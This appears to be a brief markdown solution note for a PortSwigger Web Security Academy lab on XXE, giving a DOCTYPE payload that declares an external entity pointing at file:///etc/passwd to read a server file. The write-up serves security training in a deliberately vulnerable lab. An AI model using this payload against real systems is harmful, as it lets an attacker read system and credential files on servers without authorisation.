


# Lab: Exploiting XXE using external entities to retrieve files

**Link**: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

**Solution**:
just inject entity 

```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "file:///etc/passwd" >
]>
```

<p align="center" width="100%">
  
</p>

<p align="center" width="100%">
  
</p>
